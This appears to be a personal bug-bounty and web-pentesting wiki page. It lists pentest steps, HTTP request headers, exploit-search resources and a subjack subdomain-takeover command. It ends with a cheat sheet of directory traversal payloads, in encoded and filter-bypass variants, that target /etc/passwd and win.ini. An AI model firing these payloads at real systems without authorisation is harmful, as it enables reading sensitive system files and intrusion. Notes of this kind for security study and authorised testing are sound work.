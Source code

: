 [[Bug Bounty]]

==Web Pentest steps==
1. Identify target
2. Search open sources for info 
3. Perform social engineering
4. Query the WHOIS database
5. Document everything
6. Fingerprint webserver
7. Crawl the website
8. Enume web directories
9. Perform directory traversal attack
10. Examine configuration files
11. Perform VA
12. Perform http responce splitting
13. Perform mimt 
14. Examine web server logs
15. Exploit framework
[[Website footprint]]

[[Fuzzing]], [[Status codes]], [[XSS]], [[CSRF]], [[IDOR]], [[LFD]], [[SQL injection]]
[[SSRF]], [[XXE XML]], [[RCE]], [[Unresticted file upload]],[[Google dorking]]
[[Shodan]], [[Recon]], [[Nuclei]], [[Website footprint]]

[[Pentest usefull]]

==Request Headers==
#### Host :
Indicates the desired host handling the request
#### Accept :
Indicates what MIME types are accepted by client, often used to specify JSON or XML output for web-services
#### Cookie :
Passes cookie data to the server
#### Referer :
Page leading to this request (this is not passed to other servers when using HTTPS on the origin)
#### Authorization :
Used for 'basic auth' pages, takes the form basic ```base64 username:password```

[[Web Application Countermeasures]]
[[Report]]

#### Exploit search
https://www.exploit-db.com/
searchsploit - tool on kali to search exploit on db

#### Exploitation 
Subdomain takeover 
subjack - https://github.com/haccer/subjack 
``` subjack -w subdom.list -o result.txt -ssl -c fingerprints.json```

https://github.com/EdOverflow/can-i-take-over-xyz


#### Directory traversal attack
```
../../../../etc/passwd

..\..\..\windows\win.ini

/etc/passwd

....//....//....//etc/passwd

....\/....\/.....\/etc/passwd

%2e%2e%2f%2e%2e%2f
%2e%2e%2f%2e%2e%2f/etc/passwd

%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f/etc/passwd

..%c0%af..%c0%af..%c0%af..%c0%af/etc/passwd

..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f/etc/passwd


=/var/www/images/../../../etc/passwd

../../../etc/passwd%00.png

```